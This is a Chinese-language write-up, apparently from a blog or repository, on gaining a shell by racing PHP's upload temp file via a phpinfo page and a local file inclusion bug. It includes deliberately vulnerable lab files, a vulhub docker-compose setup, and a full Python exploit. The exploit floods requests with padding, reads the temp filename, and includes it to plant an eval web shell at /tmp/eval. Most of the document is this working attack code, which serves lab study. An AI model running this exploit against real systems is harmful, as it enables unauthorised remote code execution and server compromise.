


# phpinfo with LFI

## 利用场景
当存在一个任意文件包含的页面，然而又找不到可以包含的文件，且有phpinfo页面时  
可以利用phpinfo页面，找到上传的tmp文件，进行条件竞争，生成想要获得shell

## 利用原理

在对一个页面进行文件上传时，无论这个页面将来是否要利用这个文件，php都会将这个文件保存成一个临时文件，默认为 tmp/php[\d\w]{6}  
关于这个文件的信息可以通过`$_FILES`变量获取，这个临时文件将在脚本执行结束时被php销毁  
  
对一个phpinfo页面上传文件时，可以在phpinfo中找到该临时文件的文件名

  
此时，我们可以利用条件竞争，在php文件销毁之前利用lfi页面对临时文件进行包含，产生新的稳定shell

## 利用思路
首先，逻辑顺序是  
获取phpinfo中的临时文件名 --> 对临时文件进行包含 --> phpinfo页面执行结束，销毁临时文件
  
这就需要phpinfo的执行时间远大于文件包含的时间  
而且这里要在访问phpinfo页面开始后获取文件名，并且在结束前进行包含  
这样，就不能等待整个http请求结束，需要我们直接操控原生的socket，在获取到临时文件名之后就进行包含  
  
这里的思路是往请求phpinfo的包中添加许多垃圾信息，使得整个phpinfo页面变得很庞大  
php的默认缓冲区大小为4096个字节，就相当于php每次返回4096个字节给socket连接  
这样，当我们获取到临时文件名时，就立即发送文件包含请求  
当整个phpinfo被垃圾信息充斥时，就有足够的时间给我们进行文件包含，从而生成shell  
  
## 漏洞环境
这里是直接利用的p神vulhub的docker镜像，看了环境也很简单
- php7.2
- apache

目录文件:
lfi.php
```php
<?php
include $_GET['file'];
```
phpinfo.php
```php
<?php
phpinfo();
```
用docker-compose可以直接跑
```
version: '2'
services:
 php:
   image: php:7.2-apache
   volumes:
    - ./www:/var/www/html
   ports:
    - "8080:80"
```
## exp编写
主要麻烦就是利用socket直接操纵http请求，要控制好报文内容，不然很容易请求失败  
其次我这是用python3写的，涉及到一些编解码的问题，注意一下就好  
  
一开始是要先获取临时文件的偏移值  
然后利用偏移值获取来获取临时文件名时要recv多少字节的数据  
能接受到临时文件名时，就开始发送文件包含请求，在临时文件销毁前包含到即可生成shell
  
p神的脚本中用了多线程，一开始以为，是要多个线程同时进入才能进行条件竞争  
后来分析之后发现，对一个确定的临时文件，只有随后的那个包含请求能包含那个文件，从而导致了一种逻辑上的制约，就不存在线程之间的竞争  
开多进程也可能是为了增大并发数吧。我这里为了从简就用简单的for循环来替代  
```python
import os
import socket
import sys


tag = 'kingkk'
PAYLOAD="""{}\r
<?php file_put_contents('/tmp/eval', '<?=eval($_REQUEST[1])?>')?>\r""".format(tag)

UPLOAD="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
{}
-----------------------------7dbff1ded0714--\r""".format(PAYLOAD)

padding="A" * 5000

INFOREQ="""POST /phpinfo.php?a={padding} HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie={padding}\r
HTTP_ACCEPT: {padding}\r
HTTP_USER_AGENT: {padding}\r
HTTP_ACCEPT_LANGUAGE: {padding}\r
HTTP_PRAGMA: {padding}\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: {len}\r
Host: %s\r
\r
{upload}""".format(padding=padding, len=len(UPLOAD), upload=UPLOAD)

LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""

class PHPINFO_LFI():
	def __init__(self, host, port):
		self.host = host
		self.port = int(port)
		self.req_payload= (INFOREQ % self.host).encode('utf-8')
		self.lfireq = LFIREQ
		self.offset = self.get_offfset()


	def get_offfset(self):
		'''
		获取tmp名字的offset
		'''
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((self.host, self.port))

		s.send(self.req_payload)
		page = b""
		while True:
			i = s.recv(4096)
			page+=i        
			if i == "":
				break

			if i.decode('utf8').endswith("0\r\n\r\n"):
				break
		s.close()

		pos = page.decode('utf8').find("[tmp_name] =&gt; ")
		print('get the offset :{} '.format(pos))

		if pos == -1:
			raise ValueError("No php tmp_name in phpinfo output")
		
		return pos+256 #多加一些字节

	def phpinfo_lfi(self): 
		'''
		同时发送phpinfo请求与lfi请求
		'''
		phpinfo = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		lfi = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

		phpinfo.connect((self.host, self.port))
		lfi.connect((self.host, self.port))

		phpinfo.send(self.req_payload)

		infopage = b"" 
		while len(infopage) < self.offset:
			infopage += phpinfo.recv(self.offset)

		pos = infopage.decode('utf8').index("[tmp_name] =&gt; ")
		tmpname = infopage[pos+17:pos+31]

		lfireq = self.lfireq % (tmpname.decode('utf8'),self.host)
		lfi.send(lfireq.encode('utf8'))

		fipage = lfi.recv(4096)

		phpinfo.close()
		lfi.close()

		if fipage.decode('utf8').find(tag) != -1:
			return tmpname


if __name__ == '__main__':
	if len(sys.argv) < 4:
		print('usage:\n\texp.py 127.0.0.1 80 500')
		exit()
	host = sys.argv[1]
	port = sys.argv[2]
	attempts = sys.argv[3]
	print('{x}Start expolit {host}:{port} {attempts} times{x}'.format(x='*'*15, host=host, port=port, attempts=attempts))

	p = PHPINFO_LFI(host,port)
	for i in range(int(attempts)):
		print('Trying {}/{} times…'.format(i, attempts), end="\r")
		if p.phpinfo_lfi() is not None:
			print('Getshell success! at /tmp/eval "<?=eval($_REQUEST[1])?>"')
			exit()
	print(':( Failed')

```

  
可以看到目录下成功生成临时文件



## Reference Link
https://github.com/vulhub/vulhub/tree/master/php/inclusion